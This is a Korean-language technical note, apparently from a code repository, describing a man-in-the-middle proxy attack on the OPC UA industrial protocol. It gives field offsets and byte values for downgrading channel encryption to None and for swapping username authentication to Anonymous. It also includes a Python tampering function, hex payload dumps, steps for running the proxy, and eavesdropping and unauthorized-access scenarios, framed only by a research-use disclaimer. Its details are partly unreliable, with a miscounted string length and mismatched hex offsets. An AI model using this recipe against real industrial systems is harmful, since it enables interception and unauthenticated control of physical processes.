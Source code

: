 # OPC UA 패킷 조작 세부사항

## 개요

Python socket 기반 MITM 프록시를 통해 OPC UA 메시지를 실시간으로 분석하고 조작합니다.

## 조작 대상 메시지

### 1. OpenSecureChannelRequest

**목적:** 보안 채널 설정을 평문 통신으로 다운그레이드

**조작 필드:**
- 오프셋: 28-31 바이트 (4 바이트)
- 필드명: SecurityMode
- 데이터 타입: UInt32 (little-endian)

**값 변조:**
```
원본 값: 0x00000003 (MessageSecurityMode.SignAndEncrypt)
변조 값: 0x00000001 (MessageSecurityMode.None)
```

**바이너리 표현:**
```
원본: 03 00 00 00
변조: 01 00 00 00
```

### 2. GetEndpointsResponse

**목적:** 서버가 제공하는 보안 정책을 None으로 다운그레이드

**조작 필드:**
- 필드명: SecurityPolicyUri (String)
- 데이터 타입: UTF-8 문자열

**값 변조:**
```
원본 값: "http://opcfoundation.org/UA/SecurityPolicy#Basic256Sha256"
변조 값: "http://opcfoundation.org/UA/SecurityPolicy#None"
```

**문자열 치환:**
- 길이를 맞추기 위해 null 바이트 패딩 사용
- Basic256Sha256 (16자) → None + padding

### 3. ActivateSessionRequest

**목적:** 사용자 인증을 Anonymous로 우회

**조작 필드 1 - TokenType:**
- 오프셋: UserIdentityToken 구조체 내부
- 필드명: TokenType
- 데이터 타입: UInt32

**값 변조:**
```
원본 값: 0x00000001 (UserTokenType.Username)
변조 값: 0x00000000 (UserTokenType.Anonymous)
```

**조작 필드 2 - PolicyId:**
- 필드명: PolicyId
- 데이터 타입: String

**값 변조:**
```
원본 값: "username_basic256sha256"
변조 값: "anonymous"
```

## 조작 기법 요약표

| 메시지 타입              | 필드              | 원본 값                | 변조 값         | 오프셋      |
|-------------------------|-------------------|------------------------|----------------|-------------|
| OpenSecureChannel       | SecurityMode      | 0x03 (SignAndEncrypt)  | 0x01 (None)    | 28-31       |
| GetEndpointsResponse    | SecurityPolicyUri | Basic256Sha256         | None           | 가변        |
| ActivateSession         | TokenType         | 0x01 (Username)        | 0x00 (Anonymous)| 가변        |
| ActivateSession         | PolicyId          | username_basic256sha256| anonymous      | 가변        |

## 구현 방법

### 프록시 아키텍처

```
클라이언트 <---> MITM Proxy <---> 서버
             (포트 14841)      (포트 4841)
```

### 패킷 처리 흐름

1. **수신:** 클라이언트/서버로부터 데이터 수신
2. **파싱:** OPC UA 메시지 타입 식별
3. **조작:** 타겟 필드 값 변경
4. **전달:** 변조된 데이터 전송
5. **로깅:** 조작 내역 기록

### 핵심 코드 스니펫

```python
def manipulate_open_secure_channel(self, data):
    """SecurityMode 필드 변조"""
    if len(data) > 31:
        security_mode = struct.unpack('<I', data[28:32])[0]
        
        if security_mode == 0x03:  # SignAndEncrypt
            modified = bytearray(data)
            modified[28:32] = struct.pack('<I', 0x01)  # None
            return bytes(modified)
    
    return data
```

## 바이너리 페이로드 예시

### OpenSecureChannelRequest (조작 전)

```
Offset  Hex                                           ASCII
------  --------------------------------------------  ----------------
0x0000  4F 50 4E 46 5C 00 00 00 68 74 74 70 3A 2F 2F  OPNF\...http://
0x0010  6F 70 63 66 6F 75 6E 64 61 74 69 6F 6E 2E 6F  opcfoundation.o
0x001C  03 00 00 00  <- SecurityMode (SignAndEncrypt)
```

### OpenSecureChannelRequest (조작 후)

```
Offset  Hex                                           ASCII
------  --------------------------------------------  ----------------
0x0000  4F 50 4E 46 5C 00 00 00 68 74 74 70 3A 2F 2F  OPNF\...http://
0x0010  6F 70 63 66 6F 75 6E 64 61 74 69 6F 6E 2E 6F  opcfoundation.o
0x001C  01 00 00 00  <- SecurityMode (None)
```

## 테스트 방법

### 1. 프록시 시작

```bash
python3 step2_mitm_proxy_advanced.py
```

### 2. 클라이언트 연결

```python
from opcua import Client
client = Client("opc.tcp://localhost:14841")
client.connect()
```

### 3. 조작 확인

프록시 로그에서 다음 메시지 확인:
```
[MANIPULATION] OpenSecureChannel: SecurityMode
   Original: 0x03 (SignAndEncrypt)
   Modified: 0x01 (None)

[MANIPULATION] ActivateSession detected
   Original: TokenType=Username, PolicyId=username_basic256sha256
   Modified: TokenType=Anonymous, PolicyId=anonymous
```

## 공격 시나리오

### 시나리오 1: 보안 채널 다운그레이드

1. 클라이언트가 암호화된 채널 요청
2. 프록시가 SecurityMode를 None으로 변경
3. 서버는 평문 통신 허용
4. 공격자가 모든 트래픽 도청

### 시나리오 2: 인증 우회

1. 클라이언트가 Username/Password 인증 시도
2. 프록시가 TokenType을 Anonymous로 변경
3. 서버가 인증 없이 세션 활성화
4. 공격자가 무단 접근 성공

## 보안 권고사항

이 기술은 다음 목적으로만 사용되어야 합니다:

1. 연구 및 교육 목적
2. 자체 시스템 보안 평가
3. 취약점 분석 및 패치 검증

**무단 사용은 불법입니다.**

## 참고문헌

- OPC UA Specification Part 6: Mappings
- OPC UA Specification Part 4: Services
- RFC 2119: Key words for use in RFCs

